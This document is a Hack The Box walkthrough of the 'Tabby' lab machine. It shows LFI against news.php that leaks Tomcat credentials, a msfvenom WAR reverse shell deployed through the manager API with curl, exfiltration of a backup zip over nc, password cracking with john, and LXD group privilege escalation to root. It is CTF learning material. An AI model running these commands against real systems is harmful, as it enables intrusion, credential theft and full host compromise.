 ```yaml
---
title: "[HTB] Machine: Tabby"
description: "[HTB] Machine: Tabby"
date: 2023-07-01
menu:
  sidebar:
    name: "[HTB] Machine: Tabby"
    identifier: htb-machine-tabby
    parent: htb-machines-linux
    weight: 10
hero: images/tabby.png
tags: ["HTB", "lfi", "php", "tomcat", "host-manager", "tomcat-manager", "war", "msfvenom", "zip2john", "john", "hashcat", "penglab", "lxc", "lxd", "reverse-engineering"]
---
```


# Tabby
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.194
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 16:48 BST
Nmap scan report for 10.10.10.194 (10.10.10.194)
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 453c341435562395d6834e26dec65bd9 (RSA)
|   256 89793a9c88b05cce4b79b102234b44a6 (ECDSA)
|_  256 1ee7b955dd258f7256e88e65d519b08d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.36 seconds
```
- Web Server and port `8080`

![](./images/1.png)

![](./images/2.png)


- `gobuster`
```
└─$ gobuster dir -u http://megahosting.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://megahosting.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/07/01 17:16:46 Starting gobuster in directory enumeration mode
===============================================================
/news.php             (Status: 200) [Size: 0]
/files                (Status: 301) [Size: 318] [--> http://megahosting.htb/files/]
/index.php            (Status: 200) [Size: 14175]
/.php                 (Status: 403) [Size: 280]
/assets               (Status: 301) [Size: 319] [--> http://megahosting.htb/assets/]
/Readme.txt           (Status: 200) [Size: 1574]
/.php                 (Status: 403) [Size: 280]
```

## Foothold
- `LFI`
  - If we scan through a web server, we will find a `/news.php?file=` path
  - We can try checking for `LFI`, which actually works

![](./images/3.png)

- According to the message from port `8080`, the file with users should be `etc/tomcat9/tomcat-users.xml`
  - Which returns nothing if we try to curl it

![](./images/4.png)

- If we google a bit, we find that Ubuntu might store the file in `/usr/share/tomcat9/etc/`
  - `tomcat:$3cureP4s5w0rd123!`

![](./images/5.png)

![](./images/6.png)

- `403` for accessing `/manager`
  - But we have access to `/host-manager`

![](./images/7.png)

![](./images/8.png)

- But we have access to `/manager/text` based on `manager-script` permission from `tomcat-users.xml` - 
  - [Commands](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Supported_Manager_Commands)

![](./images/9.png)

- So 
  - `msfvenom -p java/shell_reverse_tcp LHOST=10.10.16.7 -f war -o shell.war LPORT=6666`
  - `curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/revshell --upload-file shell.war`
  - Launch listener and then `curl http://10.10.10.194:8080/revshell`

![](./images/10.png)

![](./images/11.png)

![](./images/12.png)


## User
- We saw from `LFI` that we have a user `ash`
  - So let's enumerate the box
  - We found a backup file which belongs to `ash`

![](./images/13.png)

- I downloaded the file to my box
  - `cat 16162020_backup.zip | nc 10.10.16.7 7777`
  - `nc -lvnp 7777 > backup.zip`
  - Check with `md5sum` for corruptions

![](./images/14.png)

![](./images/15.png)

- The archive is protected with password, so I used `john` to crack it: `admin@it`

![](./images/16.png)

- I found nothing inside the archive
  - But luckily `ash` reused password

![](./images/17.png)

## Root
- From the `linpeas` out I saw that `ash` was in `adm` and `lxd` groups

![](./images/17.png)

- Let's use the following [post](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
  - Run these instructions on attack box
```
#Install requirements
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
git clone https://github.com/lxc/distrobuilder
#Make distrobuilder
cd distrobuilder
make
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
```
- After running those we will have 2 new files, which we have to upload to target box

![](./images/18.png)

![](./images/19.png)

- I needed to move uploaded files to `home` folder since I couldn't import the image
  - Then I followed the instructions from the link

![](./images/20.png)

- Rooted
```
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```

![](./images/21.png)
